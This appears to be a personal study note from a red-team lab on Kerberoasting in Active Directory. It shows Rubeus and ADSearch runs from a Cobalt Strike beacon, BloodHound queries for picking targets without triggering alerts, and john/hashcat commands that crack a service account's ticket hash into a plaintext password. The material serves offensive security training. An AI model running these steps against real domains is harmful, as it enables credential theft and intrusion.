 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Kerberoasting]]  
___

## Description:  

Services run on a machine under the context of a user account. These accounts are either local to the machine (LocalSystem, LocalService, NetworkService) or are domain accounts (e.g. DOMAIN\mssql).

A Service Principal Name (SPN) is a unique identifier of a service instance. SPNs are used with Kerberos to associate a service instance with a logon account, and are configured on the User Object in AD.


Kerberoasting is a technique for requesting TGS’s for services running under the context of domain accounts and cracking them offline to reveal their plaintext passwords.

`Rubeus kerberoast` can be used to perform the kerberoasting.  Running it without further arguments will roast every account in the domain that has an SPN (excluding krbtgt).

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /simple /nowrap

[*] Action: Kerberoasting
[*] Searching the current domain for Kerberoastable users
[*] Total kerberoastable users : 2

$krb5tgs$23$*svc_mssql$dev.cyberbotic.io$MSSQLSvc/srv-1.dev.cyberbotic.io:1433*$[...hash...]
$krb5tgs$23$*svc_honey$dev.cyberbotic.io$HoneySvc/fake.dev.cyberbotic.io*$[...hash...]

```

However, this approach is very load. 

A much safer approach is to enumerate possible candidates first and kerberoast them selectively.  Simply searching (e.g. using custom LDAP queries) for accounts with SPNs will not trigger alerts.

Find all users (in the current domain) where the **ServicePrincipalName** field is not blank.

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"

[*] No domain supplied. This PC's domain will be used instead
[*] LDAP://DC=dev,DC=cyberbotic,DC=io
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 2
    [+] cn : krbtgt
    [+] cn : MS SQL Service
    [+] cn : Honey Service

```
 or use a bloodhound query

```
MATCH (u:User {hasspn:true}) RETURN u

```

And even extend that query to show paths to computers from those users:

```
MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

Once we feel safe about roasting a particular account, we can do so with the `/user` argument.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /user:svc_mssql /nowrap

[*] Action: Kerberoasting

[*] Target User            : svc_mssql
[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 1

[*] SamAccountName         : svc_mssql
[*] DistinguishedName      : CN=MS SQL Service,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] ServicePrincipalName   : MSSQLSvc/srv-1.dev.cyberbotic.io:1433
[*] PwdLastSet             : 5/14/2021 1:28:34 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT

[*] Hash                   : $krb5tgs$23$*svc_mssql$dev.cyberbotic.io$MSSQLSvc/srv-1.dev.cyberbotic.io:1433*$[...hash...]

```

Use `--format=krb5tgs --wordlist=wordlist svc_mssql` for **john** or `-a 0 -m 13100 svc_mssql wordlist` for **hashcat**.

```
root@kali:~# john --format=krb5tgs --wordlist=wordlist svc_mssql
Cyberb0tic       (svc_mssql$dev.cyberbotic.io)
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (12:03 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
